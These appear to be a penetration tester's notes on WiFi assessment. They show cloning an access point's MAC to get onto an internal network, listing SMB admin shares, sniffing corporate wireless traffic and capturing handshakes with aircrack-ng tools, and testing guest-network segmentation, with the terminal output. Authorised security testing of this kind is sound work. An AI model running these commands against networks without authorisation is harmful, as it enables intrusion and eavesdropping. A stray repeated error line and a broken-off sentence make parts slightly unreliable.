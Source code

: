 # WiFi Tests

## Access to internal network through MAC cloning

Clone the MAC address of the AP:
```
sudo macchanger -m a4:00:4e:73:19:c4 eth0

Current MAC: 50:7b:9d:d6:f0:95 (unknown)
Permanent MAC: 50:7b:9d:d6:f0:95 (unknown)
New MAC: a4:00:4e:73:19:c4 (unknown)
```

Get IP address through DHCP:
```
┌──2024/07/04─11:28:39──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ sudo dhclient eth0
┌──2024/07/04─11:29:11──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.18.224.2 netmask 255.255.255.192 broadcast 10.c.c.c
inet6 fe80::a600:4eff:fe73:19c4 prefixlen 64 scopeid 0x20<link>
ether a4:00:4e:73:19:c4 txqueuelen 1000 (Ethernet)
RX packets 127 bytes 17719 (17.3 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 51 bytes 5281 (5.1 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
device interrupt 16 memory 0xf1200000-f1220000

┌──2024/07/04─11:29:24──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ip route
default via 10.z.z.z dev eth0
10.18.224.0/26 dev eth0 proto kernel scope link src 10.z.z.z
┌──2024/07/04─11:29:33──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ cat /etc/resolv.conf
domain <domain>.net
search <domain>.net
nameserver 10.x.x.x (here you should have the primary DNS server)
nameserver 10.x.x.x (here you should have the secondary DNS server)
```

Connection to Internet:
```
┌──2024/07/04─11:30:19──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ traceroute 1.1.1.1
traceroute to 1.1.1.1 (1.1.1.1), 30 hops max, 60 byte packets
1 r10-x-x-x.<domain>.net (10.x.x.x) 0.371 ms 0.244 ms 0.211 ms
2 10.y.y.y (10.y.y.y) 0.265 ms 0.274 ms 0.211 ms
3 10.z.z.z (10.z.z.z) 8.217 ms 8.151 ms 8.084 ms
4 138.a.a.a (138.a.a.a) 9.141 ms 9.075 ms 9.619 ms
5 100.b.b.b (100.b.b.b) 11.418 ms 11.354 ms 11.290 ms
6 100.b.b.b (100.b.b.b) 11.224 ms 9.600 ms 9.759 ms
7 one.one.one.one (1.1.1.1) 8.178 ms 8.155 ms 8.165 ms
┌──2024/07/04─11:32:00──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ curl heise.de -v
* Host heise.de:80 was resolved.
* IPv6: 2a02:2e0:3fe:1001:302::
* IPv4: 193.x.x.x
* Trying 193.x.x.x:80...
* connect to 193.x.x.x port 80 from 10.y.y.y port 42166 failed: Connection refused
* Trying [2a02:2e0:3fe:1001:302::]:80...
* Immediate connect fail for 2a02:2e0:3fe:1001:302::: Network is unreachable
* Failed to connect to heise.de port 80 after 18 ms: Couldn't connect to server
* Closing connection
curl: (7) Failed to connect to heise.de port 80 after 18 ms: Couldn't connect to server
```

Connection to internal network:
```
┌──2024/07/04─11:32:58──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ dig +short bsctintra.net
10.x.x.x
10.x.x.y

┌──2024/07/04─11:34:33──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ smbclient -L 10.x.x.x
Password for [WORKGROUP\sysop]:
session setup failed: NT_STATUS_NOT_SUPPORTED
curl: (7) Failed to connect to heise.de port 80 after 18 ms: Couldn't connect to server
```

Trying to access to a SMB share:
```
┌──2024/07/04─11:35:48──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ smbclient -L 10.x.x.x -U <username>
Password for [WORKGROUP\<username>]:

Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
Common Disk
D$ Disk Default share
E$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share

Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.x.x.x failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available.
```

## Sniffing traffic from all around antennas

First, terminate all the processes that can make issues:
```
airmon-ng check kill
```
Enable our wireless interface to work in "monitor mode":
```
airmon-ng start wlan1
```
The output should contain a string like `monitor mode enable`. In this manner, the interface `wlan1` is in monitor mode, so it will sniff the information around and cannot be intercepted because it is only receiving but not transmitting any data. Indeed, by opening Wireshark, we would see only incoming data. Useful information could be inside "beacon frames" where you can check if there are security mechanisms like OWE, 802.1e and so on. So, beacon frames could provide several information.

Now we must dump traffic in a cap file:
```
airodump-ng --band abg wlan1 --essid "Contoso-Corporate" -w <outfile>
```
The command dumps the traffic from all networks on the a, b and g bands. If you don't specify `-w` argument, it will save files by using a default name.

The first section of the running command shows the access points with "Contoso-Corporate".
The second section contains the list of clients connected to the access points. The clients are specified under the "STATION" column, while the BSSID is the MAC address of the access point). If we get some `not associated`, it means that it is a client with a wireless card that is not connected to any access point. We see that because, even if a client is not connected to anything, if it has the WiFi enabled, it still transmits data.

By the way, from the last command above, we must identify on which channels the "Contoso-Corporate" is working on. We retrieve this information from the first section. Depending on the antenna you are using to sniff, the sniffer might work on a lot of channels (just see the `CH` string on top-left side of the running command), while an access point, when active, generally is fixed on a specific channel, unless of particular events like collisions. Let's guess our  Then you can run:
```
airodump-ng --band abg wlan1 --channel 1 --essid "Contoso-Corporate" --bssid <MAC-address-access-point> -w <outfile>
```
By this command, we sniff only on the channel 1 of "Contoso-Corporate".

Now, if we want to capture for example the 4-Way Handshaking, we can now connect a client to the rogue access point. The sniffer will capture the traffic and store it in the cap file.

For further checks, you can open the cap file by Wireshark and analyse it. The first EAP calls are in cleartext and cannot be encrypted, because they are needed to exchange the certificate.

## Network segmentation verified from Guest WiFi to Corporate WiFi

```
┌──2024/07/04─12:02:47──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.x.x.x netmask 255.255.252.0 broadcast 10.x.x.x
inet6 fe80::4252:4839:5dce:5b14 prefixlen 64 scopeid 0x20<link>
ether 44:85:00:73:76:c5 txqueuelen 1000 (Ethernet)
RX packets 53581 bytes 68644408 (65.4 MiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 11695 bytes 1729846 (1.6 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

┌──2024/07/04─12:02:57──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ip route
default via 10.x.x.x dev wlan0 proto dhcp src 10.x.x.x metric 600
10.x.x.x/22 dev wlan0 proto kernel scope link src 10.x.x.x metric 600

┌──2024/07/04─12:03:03──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ cat /etc/resolv.conf
# Generated by NetworkManager
search pwlan.ch
nameserver 193.x.x.x
nameserver 193.x.x.x

┌──2024/07/04─12:06:28──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ smbclient -L 10.x.x.x -U <username>
do_connect: Connection to 10.x.x.x failed (Error NT_STATUS_IO_TIMEOUT)
An attempt has been made to spoof the IP address:
┌──2024/07/04─12:31:06──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ sudo ip route del default dev wlan0
┌──2024/07/04─12:31:20──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ sudo ip route add default via 10.y.y.y dev wlan0
┌──2024/07/04─12:31:53──(sysop@xka)-[~/Downloads/EAP_buster]
└─$ ping 10.y.y.y
PING 10.y.y.y (10.y.y.y) 56(84) bytes of data.
^C
--- 10.y.y.y ping statistics ---
8 packets transmitted, 0 received, 100% packet loss, time 7157ms
┌──2024/07/04─12:32:17──(sysop@xka)-[~/Downloads/EAP_buster]
└─$
```
In the example above, it was not possible to reach (ping) internal resources.
